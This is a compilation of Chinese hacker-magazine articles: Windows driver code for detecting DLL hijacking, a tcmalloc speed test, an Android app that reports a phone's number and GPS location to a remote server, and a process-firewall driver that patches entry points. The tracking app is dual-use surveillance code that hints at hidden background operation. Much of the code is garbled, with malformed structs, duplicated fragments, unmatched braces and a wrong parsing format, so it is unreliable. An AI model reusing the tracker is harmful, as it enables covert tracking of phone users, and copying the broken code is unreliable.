在驱动中，要获取进程对应程序的完整路径和当前目录，需要访问 PEB 结构。而获得 PEB 结构指针，需要先通过 PsGetCurrentProcess 获取 EPROCESS 结构，其 0x01B0 偏移处即为 PEB 结构指针。而我们需要的全路径和当前目录信息，都存放在 RTL_USER_PROCESS_PARAMETERS 结构中，这个结构位于 PEB 的 0x0010 偏移处，内部定义如下所示。

```c
typedef struct _RTL_USER_PROCESS_PARAMETERS
{
    unsigned int MaximumLength;
    unsigned int Length;
    unsigned int Flags;
    unsigned int DebugFlags;
    HANDLE ConsoleHandle;
    unsigned int ConsoleFlags;
    HANDLE StandardInput;
    HANDLE StandardOutput;
    HANDLE StandardError;
    CURDIR CurrentDirectory;
    UNICODE_STRING DllPath;
    UNICODE_STRING ImagePathName; // 则为进程对应 EXE 全路径
    UNICODE_STRING CommandLine;
    void* Environment;
    unsigned int StartingX;
    unsigned int StartingY;
    unsigned int CountX;
    unsigned int CountY;
    unsigned int CountCharsX;
    unsigned int CountCharsY;
    unsigned int FillAttribute;
    unsigned int WindowFlags;
    unsigned int ShowWindowFlags;
    UNICODE_STRING WindowTitle;
    UNICODE_STRING DesktopInfo;
    UNICODE_STRING ShellInfo;
    UNICODE_STRING RuntimeData;
    RTL_DRIVE_LETTER_CURDIR CurrentDirectories; // 里面存放着当前目录信息
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;
```

完整的功能代码如下：

```c
#define BASE_PROCESS_PEB_OFFSET 0x01B0
#define BASE_PEB_PROCESS_PARAMETER_OFFSET 0x0010
#define BASE_PROCESS_PARAMETER_FULL_IMAGE_NAME 0x003C
#define W2003_BASE_PROCESS_PEB_OFFSET 0x0190
#define W2003_BASE_PROCESS_PEB_OFFSET_SP1 0x01A0
#define VISTA_BASE_PROCESS_PEB_OFFSET 0x0188

typedef struct _CURDIR
{
    UNICODE_STRING DosPath;
    PVOID Handle;
} CURDIR, *PCURDIR;

typedef struct RTL_DRIVE_LETTER_CURDIR
{
    USHORT Flags;
    USHORT Length;
    ULONG TimeStamp;
    UNICODE_STRING DosPath;
    PRTL_DRIVE_LETTER_CURDIR;
} *PRTL_DRIVE_LETTER_CURDIR;
```

```c
USHORT Length;
ULONG TimeStamp;
UNICODE_STRING DosPath;
} RTL_DRIVE_LETTER_CURDIR,
*PRTL_DRIVE_LETTER_CURDIR;

typedef struct _RTL_USER_PROCESS_PARAMETERS
{
    unsigned int MaximumLength;
    unsigned int Length;
    unsigned int Flags;
    unsigned int DebugFlags;
    HANDLE ConsoleHandle;
    unsigned int ConsoleFlags;
    HANDLE StandardInput;
    HANDLE StandardOutput;
    HANDLE StandardError;
    CURDIR CurrentDirectory;
    UNICODE_STRING DllPath;
    UNICODE_STRING ImagePathName;
    UNICODE_STRING CommandLine;
    void* Environment;
    unsigned int StartingX;
    unsigned int StartingY;
    unsigned int CountX;
    unsigned int CountY;
    unsigned int CountCharsX;
    unsigned int CountCharsY;
    unsigned int FillAttribute;
    unsigned int WindowFlags;
    unsigned int ShowWindowFlags;
    UNICODE_STRING WindowTitle;
    UNICODE_STRING DesktopInfo;
    UNICODE_STRING ShellInfo;
    UNICODE_STRING RuntimeData;
    RTL_DRIVE_LETTER_CURDIR CurrentDirectories;
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;

ULONG GetProcessPathAndCurrDir(IN OUT PUNICODE_STRING path, IN OUT PUNICODE_STRING curdir)
{
    ULONG OsMajorVersion;
    ULONG OsMinorVersion;
    unsigned int dwAddress;
    PRTL_USER_PROCESS_PARAMETERS pUserParams;

    if (KeGetCurrentIrql() != PASSIVE_LEVEL)
    {
        return 0;
    }

    try
    {
        dwAddress = (unsigned int)PsGetCurrentProcess();
        if (dwAddress == 0 || dwAddress == 0xFFFFFFFF)
        {
            return 0;
        }

        PsGetVersion(&OsMajorVersion, &OsMinorVersion, NULL, NULL);

        // 目前只支持 Win 2000/xp/2003/VISTA
        if ((OsMajorVersion < 5 || OsMinorVersion > 2))
        {
            return 0;
        }
    }
}
```

```c
// 取得 PEB，不同平台的位置不同
// 2000 0X0500 XP 0X0501
if (OsMajorVersion == 5 && OsMinorVersion < 2)
{
    dwAddress += BASE_PROCESS_PEB_OFFSET;
}
// 2003 0X0502
if (OsMajorVersion == 5 && OsMinorVersion == 2)
{
    dwAddress += W2003_BASE_PROCESS_PEB_OFFSET;
}
// VISTA 0X0600
if (OsMajorVersion == 6 && OsMinorVersion == 0)
{
    dwAddress += VISTA_BASE_PROCESS_PEB_OFFSET;
}
// 取得 PEB 地址
if ((dwAddress = *(unsigned int*)dwAddress) == 0)
{
    return 0;
}
// 取得 RTL_USER_PROCESS_PARAMETERS 结构地址

...

pUserParams = (RTL_USER_PROCESS_PARAMETERS*)dwAddress;
// 获取应用程序完整路径
path->Buffer = pUserParams->ImagePathName.Buffer;
path->Length = pUserParams->ImagePathName.Length;
// 获取应用程序当前目录
curdir->Buffer = pUserParams->CurrentDirectory.DosPath.Buffer;
curdir->Length = pUserParams->CurrentDirectory.DosPath.Length;

...

__except (EXCEPTION_EXECUTE_HANDLER)
{
    if (OsMajorVersion == 5 && OsMinorVersion == 2)
    {
        dwAddress = (unsigned int)PsGetCurrentProcess();
        dwAddress += W2003_BASE_PROCESS_PEB_OFFSET_SP1;
        if ((dwAddress = *(unsigned int*)dwAddress) == 0)
        {
            return 0;
        }
        dwAddress += BASE_PEB_PROCESS_PARAMETER_OFFSET;
        if ((dwAddress = *(unsigned int*)dwAddress) == 0)
        {
            ...
        }
    }
}
```

```c
{
    return 0;
}

pUserParams = (RTL_USER_PROCESS_PARAMETERS*)dwAddress;
path->Buffer = pUserParams->ImagePathName.Buffer;
path->Length = pUserParams->ImagePathName.Length;
curdir->Buffer = pUserParams->CurrentDirectory.DosPath.Buffer;
curdir->Length = pUserParams->CurrentDirectory.DosPath.Length;

if (MmIsAddressValid(path->Buffer) && MmIsAddressValid(curdir->Buffer))
{
    // 判断读取该地址是否会出现页错误，如果出现，则不读取该地址，返回 1
    return 1;
}
return 0;
```

到这里，驱动部分的实现代码讲解完毕。用户态在接收来自驱动的数据信息后，首先判断 DLL 是否从系统目录加载。如果是，则认为 DLL 是正常的（这里不考虑系统目录存在 DLL 劫持的情形，而实际也极少出现这种劫持）。如果不是，则判断是否从应用程序所在目录加载。如果是并且 DLL 文件名与系统 DLL 同名，则报警为旧 DLL 劫持。如果 DLL 从当前目录加载，则报警提示用户可能为新 DLL 劫持，供用户选择是否允许其加载。代码如下：

```c
if (strcmp(file_directory, sys_32) && strcmp(file_directory, sys_16) && strcmp(file_directory, win_d))
{
    if (!strcmp(file_directory, CProcessPathDire)) // 如果 DLL 目录与应用程序所在目录相同
    {
        CStdioFile myFile;
        CFileException fileException;

        if (myFile.Open("KnownDlls.txt", CFile::typeText | CFile::modeRead, &fileException))
        {
            CString strContent;
            while (myFile.ReadString(strContent))
            {
                if (!strcmp(strContent, file_name)) // 如果在存放系统 DLL 文件名的文件中找到了与该 DLL 文件名相同的项
                {
                    ZeroMemory(msgbuff, 512);
                    strcpy(msgbuff, "DLL 来自应用程序所在目录");
                    strcat(msgbuff, name);
                    strcat(msgbuff, " 且 DLL 文件名与系统 DLL ...");
                }
            }
        }
    }
}
```

```cpp
strcat(msgbuff, strContent);
strcat(msgbuff, "相同");
ShowAlertBox(msgbuff, MSG_OLDDLLHIJACK); // 弹出报警框
    }
}
}
else
{
    TRACE("Can't open file");
}
myFile.Close();
}
// dll 目录与应用程序当前目录相同
else if(!stricmp(file_directory, CProcessCurDir))
{
    ZeroMemory(msgbuff, 512);
    strcpy(msgbuff, "DLL 来自应用程序当前目录:");
    strcat(msgbuff, name);
    ShowAlertBox(msgbuff, MSG_NEWDLLHIJACK);
}
}
```

上面给出的并不是完整的代码，但包含了实现逻辑。作者在对小工具进行测试时，旧 DLL 劫持采用经典的 NOTEPAD.EXE 加载 ipk.dll 的漏洞；新 DLL 劫持采用开源媒体播放器 Media Player Classic 6.4.9.1 加载恶意 iacenc.dll 的样本，均可以成功检测，读者在实现本文的工具之后，也可以寻找更多的样本来进行测试。

本文在检测劫持时，采用最简单最直观的方法。但这种方法也存在许多需要完善的地方，比如判断旧劫持时，有 DLL 内容 HASH 的比对会更准确；而判断新劫持时，在目录匹配不足以认定一个 DLL 为恶意时，我们可以考虑结合别的方法来进一步分析 DLL 是否为恶意的。一种想法就是，分析应用程序在正常运行时加载成功和失败的 DLL，如果属于新 DLL 劫持，则一定曾经出现在失败列表中。这些改进如何设计与实现，篇幅有限，就不在这里具体讨论，有兴趣的读者可以进一步探索。

- 前置知识：VC
- 关键词：内存管理，tcmalloc，分配

# 高效使用和管理程序内存


图/文 腾袭

不知大家有没有一种感觉：在编写程序时总是发现分配内存太消耗时间了，特别是零碎的大量的内存空间的分配，总是感觉特别慢。这是由于 Windows 中的 malloc 等内存分配函数是很久以前专门为单处理器单线程工作而设计的，可现在进入了多处理器多线程的时代，用起为单处理器单线程设计的 malloc 算法自然是奇慢无比。所以我们有必要使用一些内存管理库来帮助我们提高程序的内存使用效率和稳定性。

目前比较著名的内存管理库有 jemalloc 和 tcmalloc（google-perftools），著名的 FireFox 浏览器就是使用 jemalloc 库作为内存分配管理模块。它们的使用大大提高了在多线程应用下程序的并行处理能力。

我们这里主要来看看 tcmalloc。tcmalloc（google-perftools）是 Google 开发的一个开源的内存管理库，我们可以在它的 SVN 上下载最新版的代码，目前已经出到 1.8.3 版本了。我们也可以去 Google Code 查看它的详细说明。

笔者之所以选择使用 tcmalloc，主要的一个原因是它方便，Google 在代码中直接包含了 Hook 的过程，它可以自动帮我们接管系统内存函数对内存的管理，连带着系统内部的函数分配也一并优化了，这更加提高了一些隐性的内存分配过程的速度。

在 patch_functions.cc 这个代码中可以看到详细的初始化过程。这里笔者在它的代码中发现了一个很有趣的写法，Google 的工程师还为其注上一段注释：最简单的方法去初始化这个数组（即清零）。

```cpp
LibcInfo() {
    memset(this, 0, sizeof(*this));  // easiest way to initialize the array
}
```

这个方法大家也可以尝试一下，看起来蛮有趣的。在程序初始化的时候，由于定义了一些 static 的类，它们便在程序初始化时自动执行类的初始化，在这里 tcmalloc 就完成了接管系统的函数。或者由于一些原因，我们也可以使用 PatchWindowsFunctions() 来完成手动的系统函数接管。

现在我们可以来测试一下 tcmalloc 带给我们程序的效率提升。也许细心的读者会发现，每次使用 malloc 分配的内存中总是填满了 0xCC，这种做法多少程度上也会降低一些效率，特别是对分配大块内存来说，而 tcmalloc 分配中你甚至还可以看到上次分配的内存中写入的部分数据！

我们可以在代码中用 tc_malloc 和 tc_free 来直接使用 tcmalloc。同样，由于已经接管了系统的函数，我们用 new 或者 malloc 也可以达到同样的目的。如果我们在调试的时候在 malloc 上下断点单步调试，可以看到我们的调用会转到 patch_functions.cc 中的接管函数上，其实就是一个 jmp。

测试代码：

```cpp
#include "stdafx.h"
#include "windows.h"
#include "time.h"
// 通过使用这句宏控制是否开启 tcmalloc
#define USE_TCMALLOC
#ifdef USE_TCMALLOC
#define PERFTOOLS_DLL_DECL
extern void PatchWindowsFunctions();
#include "..\google\src\google\tcmalloc.h"
#pragma comment(lib, "..\..\lib\libtcmalloc_static_vc100.lib")
#endif
int _tmain(int argc, _TCHAR* argv[])
{
```

```cpp
#ifdef USE_TCMALLOC
    PatchWindowsFunctions();
#endif

unsigned long t, t2;
scanf("%*c");
srand(time(NULL));
t = ::GetTickCount();
int i;
for (i = 0; i < 10000000; i++)
{
    char *p = (char *)malloc(1024);
    p[0] = 0;
    free(p);
}
t2 = ::GetTickCount();
printf("malloc usage time: %d\r\n", (t2 - t));
printf("Press Enter to Exit..\r\n");
scanf("%*c");
return 0;
}
```

笔者测试的是分 2 次编译程序测试，测试用 malloc 分配和释放 1024 字节的内存 10000000 次，如图 1 所示。


图 1

结果用时 9750 毫秒（笔者测试的机器不怎么快）。

而使用 tcmalloc 的结果大大震撼了我，如图 2 所示。


图 2

读者可以想象这是一种何等层次的效率提升！相信大家已经迫不及待去使用从本文中了解的一些关于内存管理的技巧了，快去尝试吧！

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：Java
- 关键词：Android，GPS，GSM


# Android 程序开发之 Whereyouare

文/图 非虫

Android 系统手机的发展是大势所趋，相应的软件开发、安全等问题也成为广大软件开发者的话题。目前出产的大多数 Android 系统的手机都自带了 GPS 定位模块，相应的 GPS 软件如高德、凯立德导航软件也成为很多手机发烧友必备的装机软件了。开发导航软件这样的东西自然不会是个体或小团队所能够完成的，但这不代表我们不能对此加以应用。俗话说，剑走偏锋嘛，今天，给大家展示一下 Android 系统下 GPS 定位在实际中可能存在的价值及应用。

## 软件功能及开发思路

我们今天实现的软件名叫 whereyouare，顾名思义，它是用来探测用户位置的一种应用。whereyouare 在运行时会连接我们的服务端，并发送自己所在位置经纬度及手机号码。我们在服务端通过经纬度信息来获取用户所在位置的地图信息并将它实时地显示出来。由于手机端向服务端发送数据不需要时刻保持连接，所以，在这里我们选择通过 Socket 的 UDP 进行连接，这样一方面可以节约手机流量，另一方面更加节约内存，从而更省电。服务端方面，本来也可以用 Android 程序来实现，不过由于手机上显示的画面较小，而且需要消耗流量来监控等问题不太适合。当然，如果想使用手机端来监控也是很容易的。在这里我们采用 PC 机来做接收端，整体的思路如图 1 所示。


图 1

## 代码实现

由于 Socket 的平台通用性，我们只需要设计一套完整的通信协议，就可以在不同系统、不同平台下通信。为了使开发变得更顺手，PC 端我使用 VC6 来开发。但是需要注意的是，Android 程序开发是基于 Java 的 App Framework 的代码，与 C++ 通信中使用的字节序不同。为了解决这个问题，我们在传输数据过程中采用 UTF-8 编码，这样一方面由于编码的通用性，另一方面也有效地解决了字节序的问题，在这点上大家需要注意。

首先，我们来看手机端的代码。由于代码需要使用到 Socket 访问网络以及使用 GPS 定位，因此我们需要在 AndroidManifest.xml 文件中加入以下权限：

```xml
<uses-permission
android:name="android.permission.INTERNET" />
<uses-permission
android:name="android.permission.ACCESS_FINE_LOCATION" />
<uses-permission
android:name="android.permission.ACCESS_COARSE_LOCATION" />
```

另外，我们的手机端在发送数据时候也会连带发送手机号码，获取手机号码信息还需要加入如下权限：

```xml
<uses-permission
android:name="android.permission.READ_PHONE_STATE" />
```

接下来是 GPS 检测代码，因为很多人在使用手机的时候默认是将 GPS 关闭的，这样就无法获取地理位置信息了。我们的程序应该要检测这种状况并提示用户开启 GPS，代码如下：

```java
private void openGPSSettings() {
    LocationManager lm = (LocationManager) this.getSystemService(Context.LOCATION_SERVICE);
    if (lm.isProviderEnabled(android.location.LocationManager.GPS_PROVIDER)) {
        System.out.println("GPS 模块正常...");
        return;
    }
    System.out.println("GPS 模块没有启动...");
    Intent intent = new Intent(Settings.ACTION_SECURITY_SETTINGS);
    startActivityForResult(intent, 0); // 此为设置完成后返回到获取界面
}
```

LocationManager 类是 Android 系统提供给我们的一个接口，通过它我们可以访问系统提供的定位服务；而通过 getSystemService 这个函数，我们可以获取系统所提供的所有服务，如闹钟服务 AlarmManager、电话服务 TelephonyManager、WiFi 服务 WifiManager 等。但要注意：getSystemService 这个方法基于 context，它是 Activity 控件的一个方法，因此只有在具体可视窗体的程序中这个方法才能使用！这是我演示程序用到 Activity 的原因。我想这可能是 Android 系统出于安全考虑，才让使用 GPS 的程序必须在 Activity 中生成。不过我们还是有方法让 Android 程序运行在后台中，这不是我们这篇讨论的内容了。在获得 LocationManager 后，我们调用它的 isProviderEnabled 方法判断 GPS 模块是否已经启动，如果没启动，我们就提示用户启动。

如果 GPS 模块启动正常，我们就来使用它的定位服务，代码如下：

```java
private void SetGPSListener() {
    try {
        locationManager = (LocationManager) this.getSystemService(Context.LOCATION_SERVICE);
        System.out.println("获取 location");
        locationManager.requestLocationUpdates(LocationManager.GPS_PROVIDER,
            5 * 1000, 10, locationListener); // 设置监听器
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

核心的功能也就是 locationManager 的 requestLocationUpdates 方法，这个方法用来更新手机端的位置信息，它格式如下：

```java
public void requestLocationUpdates(String provider, long minTime, float minDistance, LocationListener listener)
```

第一个参数 provider 我们传入 GPS_PROVIDER，表明我们用来更新 GPS 信息；第二个参数 minTime 表明多久更新一次，以毫秒为单位，在这里我们传入 5 * 1000 设置为 5 秒；第三个参数 minDistance 表示多远距离后更新信息，以米为单位；最后一个参数 locationListener 用来设置一个监听器，当需要更新信息时会触发它。我们的程序可以通过它在地理位置发生改变需要更新时将信息发送到服务端，以便实时地更新，这也是本程序的关键代码之所在。在这个监听器中，有四个方法分别表示监听位置时可能发生的状况，我们在代码中需要实现它，它们分别是 onLocationChanged 表示位置发生了改变，onProviderDisabled 表示 GPS 被禁用了，onProviderEnabled 表示 GPS 被启用，onStatusChanged 表示状态发生改变。在我们的程序中，只对 onLocationChanged 进行了处理，代码如下：

```java
private final LocationListener locationListener = new LocationListener() {
    public void onLocationChanged(Location location) {
        String s = updateLocation(location);
        s = phonenumber + "|" + s; // 发送手机号码和经纬度
        System.out.println(s);
        SendInfo(s);
    }

    public void onProviderDisabled(String provider) {
        // TODO Auto-generated method stub
    }

    public void onProviderEnabled(String provider) {
        // TODO Auto-generated method stub
    }

    public void onStatusChanged(String provider, int status, Bundle extras) {
        // TODO Auto-generated method stub
    }
};
```

```java
// TODO Auto-generated method stub
}
};
```

```java
}
catch (IOException e) {
    // TODO Auto-generated catch block
    System.out.println("发送地理位置失败...");
    e.printStackTrace();
}
}
```

可以看到我们先 updateLocation，然后再 SendInfo。onLocationChanged 被调用的时候，传进来一个 location 参数，我们通过调用它的 getLongitude() 与 getLatitude() 来分别获取当前所在的经度与纬度，代码如下：

```java
private String updateLocation(Location location) {
    if (location != null) {
        double longitude = location.getLongitude();
        double latitude = location.getLatitude();
        System.out.println("经度：" + longitude + " 纬度：" + latitude);
        String s = Double.toString(longitude) + ',' + Double.toString(latitude);
        return s;
    } else {
        System.out.println("无法获取地理信息");
        return null;
    }
}
```

在这里我们返回一个 String，里面包含了经纬度来供我们的 Socket 来使用。在程序初始化的时候，我们调用 InitSocket() 方法初始化了套接字：

```java
private void InitSocket(){
    try {
        ds = new DatagramSocket(LOCALPORT);
    } catch (SocketException e) {
        // TODO Auto-generated catch block
        e.printStackTrace();
    }
}
```

初始化部分只是构造了一个 DatagramSocket 类，它是 Android 程序基于 UDP 方式 Socket 的基础。我们的数据要通过 DatagramSocket 的 send() 方法来发送出去，它有一个参数 DatagramPacket，表明我们要发送一个 UDP 的包。我们来看看 SendInfo() 的代码：

```java
private void SendInfo(String s){
    byte[] buf = s.getBytes(); // 默认的字符集为 UTF-8
    int length = buf.length;
    for(int i=0; i<length; i++){
        buf[i] = (byte)(buf[i] ^ 0x90); // 简单进行加密
    }

    try {
        dp = new DatagramPacket(buf, length,
             InetAddress.getByName(REMOTE_SERVER), REMOTEPORT);
    } catch (UnknownHostException e) {
        // TODO Auto-generated catch block
        e.printStackTrace();
    }

    try {
        System.out.println("发送地理位置...");
        ds.send(dp);
    }
```

在 Android 中，String 的 getBytes() 方法默认返回的是 UTF-8 格式的字节数组，这为我们的代码与 C++ 的通信带来了方便。但请注意，如果大家在开发相关程序时发送的是自定义的数据格式（如结构等），在发送前就需要做好相关的转换，因为到 C++ 端后转换比较麻烦。在 SendInfo() 里面，我将“手机号码|经纬度”格式的字符串首先转换为字节流，然后简单地进行了异或加密，这样一定程度上保证了数据的安全性。

讲完了“手机端”，我们来看看 PC 端的处理部分。代码采用 MFC 来编写一个基于 Dialog 的程序，在 OnInitDialog() 方法中我们调用 appInit() 来对程序进行初始化。

```cpp
void CWhereyouareDlg::appInit()
{
    if (WSAStartup(MAKEWORD(2,1), &m_wsaData)) // 调用 Windows Sockets DLL
    {
        AfxMessageBox("Winsock 无法初始化!\n");
        WSACleanup();
        return;
    }
    m_local.sin_family = AF_INET; // 地址族
    m_local.sin_port = htons(4444); // 监听端口
    m_local.sin_addr.s_addr = INADDR_ANY; // 本机
    m_socket = socket(AF_INET, SOCK_DGRAM, 0);
    int nRet = bind(m_socket, (struct sockaddr*)&m_local, sizeof(m_local));
    if (SOCKET_ERROR == nRet)
    {
        closesocket(m_socket);
        WSACleanup();
        AfxMessageBox("绑定端口失败！");
        return;
    }
    GdiplusStartup(&m_pGdiToken, &m_gdiplusStartupInput, NULL);
    m_pDC = m_mappic.GetDC();
    m_graphics = Graphics::FromHDC(m_pDC->m_hDC);
}
```

首先是初始化 socket、绑定端口，接着是初始化 Gdiplus。在我们 PC 端的程序中，接收到经纬度后就要对它进行处理，通过一些方式来转换成图像显示出来。最常用的方法当然是 Google MAP API 与 Baidu MAP API 了，这样转出的图片效果多，扩展性也强，适合一些商用开发。我的演示程序采用了一种更简便的方法，在 Google MAP API 和 Baidu MAP API 中都提供了相应的……## 静态图片生成功能

我在测试 Google MAP API 的时候，生成的图片在国内的经纬度总是无法正常显示，不明白原因，所以选择了 Baidu。首先看相关的静态图片介绍及使用方法，Google 相关的链接为 `http://code.google.com/intl/zh-CN/apis/maps/documentation/staticmaps/`，百度相关的链接为 `http://dev.baidu.com/wiki/map/index.php?title=...`。另外还有 Sogou MAP，这里就不介绍了。在百度相关链接中我们得知静态图片返回的格式为 PNG，因为我们需要想办法让它显示在我们的控件中，在 C++ 中显示 PNG 图片的最简单方法当然是调用 Gdiplus 了。只需要通过图片文件构造个 Image 对象，用一个 HDC 构造一个 Graphics，然后调用 Graphics 的 DrawImage() 方法就可以显示出来，代码量少，很方便。

并显示出来，如图 2（a）和图 2（b）所示。图片的下载只用了 `URLDownloadToFile`。起先，我是想在主界面上弄个 Web 访问控件，然后访问显示的。不过觉得那样弄又多了控件，多了代码，不简洁，果断放弃了。好了，代码到这里也讲解完了，我们看一下在模拟器上运行的效果。

我们在获取按钮的单击代码响应中，创建一个数据接收线程来完成信息的接收及图片的显示工作，代码如下：

```cpp
unsigned CWhereyouareDlg::Work(LPVOID lpParam)
{
    CWhereyouareDlg* dlg = (CWhereyouareDlg*)lpParam;
    SOCKET s = dlg->m_socket;
    sockaddr_in saddrin = dlg->m_from;
    Graphics* graphics = dlg->m_graphics;
    ASSERT(s != NULL);
    while (bShow)
    {
        char buffer[512] = "\0";
        char phonenumber[256] = "\0";
        char location[256] = "\0";
        char url[1024] = "\0";
        int fromlen = sizeof(saddrin);
        if (recvfrom(s, buffer, sizeof(buffer), 0,
            (struct sockaddr*)&saddrin, &fromlen) != SOCKET_ERROR)
        {
            fromlen = strlen(buffer);
            for (int i = 0; i < fromlen; i++)
                buffer[i] = buffer[i] ^ 0x90; // 数据解密

            sscanf(buffer, "%[^|]*|%[^|]%s", phonenumber, location);
            sprintf(url, "%s%s", baidumapurl, location);

            URLDownloadToFile(NULL, url, "tmp.png", 0, 0);
            Image image(L"tmp.png", FALSE);
            graphics->DrawImage(&image, 0, 0);
            dlg->SetDlgItemText(IDC_PHONENUMBER, phonenumber);
        }
    }
    return 1;
}
```

在接收到数据后对数据进行解密，最后下载图片并显示出来。


图 2

回顾一下整个开发流程还是很简单的，程序写到这里还有什么需要完善的地方，如希望这个程序可以在后台运行、程序地图采用实景图等，这些问题就留给大家来完成了。最后声明，本文中提到的方法及代码只得用于学习交流，任何个人或组织不得用于非法用途行为。由此带来的直接或连带后果，本人不承担任何法律责任。

图 3 所示。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

最后是在 MOTO MB525 上的真机测试效果，如下：


图 3

- 前置知识：C 驱动开发
- 关键词：防火墙，进程监控，PE

# 进程防火墙开发的再次挖掘


图/文 liuke_blue

前段时间，我们实验室需要为外面某公司开发一个安全方面的软件，这个项目很大。由于制度问题，我在这里无法透露，我在这里只是谈论有关技术。其中有一个要求就是需要按照某些策略来进行限制进程的启动，实际上就是开发一个进程防火墙，黑白名单由自己指定。

当时我接到该任务，心中一阵窃喜，这个我在 2009 年就已经实现。我当年在《黑客防线》写过一篇《“二次华山论剑”——再论进程防火墙》文章，就是当创建进程时候，可以被拦截，由用户判定是否拦截进程。因此没多想，直接把相关的代码和文档丢给师弟，让他们去修改，并提出设计方案：在应用层建立一个队列，创建一个进程挂起后就放入队列，另一个队列处于检测进程队列状态中，一旦发现进程等待状态中有新的元素，就提取该挂起进程的 ID 进行判定，如果在黑名单中，直接结束；不在则直接继续运行挂起的进程。

但是按照此方案设计后，测试发现了几个问题：

- 第一，采取应用层队列挂钩会造成极大的延时，同步效果不好；
- 第二，使用 Ntdll 的 ZwSuspendProcess 函数不能挂起父进程是 Winlogon.exe 创建的进程，比如：taskmgr.exe（任务管理器）等进程。

这样只能否定这种方案。利用 PsSetCreateProcessNotifyRoutine 回调函数，未做进程防火墙，行不行。这个时候我逆向了一下 QQ 管家的 TSKsp.sys 驱动文件，发现它也是通过 PsSetCreateProcessNotifyRoutine 回调函数来进行进程过滤的，并且判断了父进程是否是 Explorer.exe 或者 Winlogon.exe，其中用到大量的同步以及互斥机制。

因此我决定重新分析 PsSetCreateProcessNotifyRoutine 回调函数的流程，发现该回调函数的简单流程：

NtCreateProcessEx -> PspCreateProcess。PspCreateProcess 函数初始化进程相关的参数、结构、任务等，然后进程环境搭建好后，运行第一个线程（主线程），利用 PspCreateThread 函数。这个函数完成初始化主线程的参数、结构（比如 TCB）等工作以后，将会再使用 ExReferenceCallBackBlock 函数来进行遍历执行 PsSetCreateProcessNotifyRoutine 回调函数表中的 8 个函数地址，后面继续遍历 PspCreateThreadNotifyRoutine 回调函数等，经过一系列复杂的工作后才能启动进程。

这里不做过多阐述了，有兴趣的黑防读者可以通过阅读 wrk1.2 来理解，也可以构建 wrk 环境来调试进程创建流程，估计跟目前的操作系统流程会有所不同，因为 wrk 是 Windows 2003 SP1（x86）下使用的内核源码，目前的流行操作系统 Win7 肯定是不一样的。

通过上面的分析得知，PsSetCreateProcessNotifyRoutine 回调函数将会在第一个主线程未启动之前启动，这说明进程已经被映射进入内存而且与主线程创建是同步事件，因此决定就在 PspCreateThreadNotifyRoutine 回调函数里做过滤。在回调函数中使用 ZwTerminateProcess 来强制结束黑名单上的进程，效果示意如图 1 所示。


图 1

如果是写自己编写工具测试这样也无所谓，但是写产品，这种提示框是不能出现的，难道你要用户自己去点一下。首先为什么会提示这个框，这是由于应用软件在新建进程时，比如我们双击进程图标时，这样父进程一般是 Explorer.exe，会利用 CreateProcessInternalW 这个函数来创建进程；如果在主线程还没开始执行前，就被 ZwTerminateProcess 结束，那么 Explorer.exe 认为遇到什么不明错误，会调用 drwtsn32.exe 来上报错误……

如果父进程为 cmd 命令行的话，在回调函数结束进程也会提示“访问被拒绝”等信息。除了父进程是 Winlogon.exe 里进行强制结束进程不会出现这种错误提示框以外，估计是采取别的隐藏手段来通知 Winlogon.exe 创建进程失败吧。这里使用修改 PE 文件入口地址的指令，让其自己结束，这样就不会出现提示框了。在内核中修改应用层的地址空间内容要使用 ZwProtectVirtualMemory 函数，这个函数是个未导出的函数，所以要查找一下。该函数起始地址在 ZwPulseEvent 的地址空间的上方不远处，原理如图 2 所示。


图 2

所以从 ZwPulseEvent 的起始地址往上面空间找，可通过判定 `mov eax, 0x89` 的指令特征来定位，还要注意 PE 文件入口是如何定位的。下面直接给出核心源代码：

```cpp
BOOLEAN isNotProtect(IN PCHAR StartProcessPath)
{
    PCHAR LowProcessFullPath;
    KIRQL oldirql;
    PPROCESS_RULE pRule = NULL;
    BOOLEAN result;
    result = FALSE;
    pRule = g_policyRule;
    if (!pRule)
        return result;
    LowProcessFullPath = _strlwr(StartProcessPath);
    oldirql = KfAcquireSpinLock(&MySpinLock);
    while (pRule)
    {
        if (strstr(LowProcessFullPath, &pRule->ProcessName[0]))
        {
            if (pRule->IsNotProtected == 0x30)
                result = TRUE;
            if (pRule->IsNotProtected == 0x31)
                result = FALSE;
            break;
        }
        pRule = pRule->Next;
    }
    KfReleaseSpinLock(&MySpinLock, oldirql);
    return result;
}

// 修改 PE 的 OEP 入口地址来拦截进程
NTSTATUS PatchProcessEntry(IN HANDLE Pid)
{
    NTSTATUS status;
    ...
}
```

```c
PEPROCESS EProcess;
PULONG Peb;
HANDLE ProcessHandle;
PROCESS_BASIC_INFORMATION ProcessInformation;
PULONG ImageBaseAddress;
ULONG e_lfanew;
PULONG PeHeader;
ULONG AddressOfEntryPointer_RVA;
PULONG OEP_VA;
ULONG IsNotAttached;
ULONG MemSize;
ULONG OldProtect;
PULONG tempaddress;
status = STATUS_UNSUCCESSFUL;
IsNotAttached = 0;

status = PsLookupProcessByProcessId((ULONG)Pid, &EProcess);
if (!NT_SUCCESS(status)) {
    DbgPrint("PsLookupProcessByProcessId Failed!\n");
    return status;
}

status = ObOpenObjectByPointer((PVOID)EProcess, OBJ_KERNEL_HANDLE, NULL,
                               PROCESS_ALL_ACCESS, NULL, KernelMode, &ProcessHandle);
if (!NT_SUCCESS(status)) {
    DbgPrint("ObOpenObjectByPointer Failed!\n");
    return status;
}

status = ZwQueryInformationProcess(ProcessHandle, ProcessBasicInformation,
                                   &ProcessInformation,
                                   sizeof(PROCESS_BASIC_INFORMATION), NULL);
if (!NT_SUCCESS(status)) {
    DbgPrint("ZwQueryInformationProcess Failed!\n");
    return status;
}

if (ProcessInformation.PebBaseAddress) {
    Peb = ProcessInformation.PebBaseAddress;
    KeAttachProcess(EProcess);
    IsNotAttached = 1;

    // 定位到用户进程的 OEP，修改入口地址
    ProbeForRead(Peb, 0x10, 1);
    ImageBaseAddress = *(PULONG *)((PBYTE)Peb + 0x08);
    ProbeForRead(ImageBaseAddress, 0x60, 1);

    // 到 PEHeader 的 RVA
    e_lfanew = *(PULONG *)((PBYTE)ImageBaseAddress + 0x3C);

    // 定位到 PEHeader 的 VA
    PeHeader = (ULONG *)((PBYTE)ImageBaseAddress + e_lfanew);
    ProbeForRead(PeHeader, 0x40, 1);

